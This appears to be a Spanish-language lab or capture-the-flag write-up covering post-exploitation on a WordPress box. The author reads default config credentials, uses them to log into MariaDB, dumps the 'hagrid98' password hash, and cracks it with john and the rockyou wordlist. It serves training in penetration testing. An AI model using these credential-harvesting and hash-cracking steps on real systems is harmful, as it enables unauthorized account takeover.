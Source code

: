 ## Post Explotación

### Enumeración

Posteriormente, al intentar acceder a la base de datos disponible con las credenciales dentro de `/usr/share/wordpress/wp-config.php` y fallar, se intentó con las que se encuentran de ejemplo en los sitios de wordpress `/etc/wordpress/config-default.php`.

```bash
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

Obteniendo así acceso a la base de datos y pudiendo visualizar la lista de usuarios y hashes que se encuentran registrados en wordpress, coincidiendo en que el usuario `hagrid98` es también usuario de sistema.

```bash
MariaDB [wordpress]> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. |
+------------+------------------------------------+
1 row in set (0.001 sec)
```

### Escalación de privilegios

#### www-data &rarr; hagrid98

Al obtener el hash de la contraseña se hizo uso de `john` para crackearla y poder escalar como ese usuario.

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hagrid98.hash
Created directory: /home/srrequiem/.john
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2023-03-06 12:59) 25.00g/s 38400p/s 38400c/s 38400C/s 753951..mexico1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
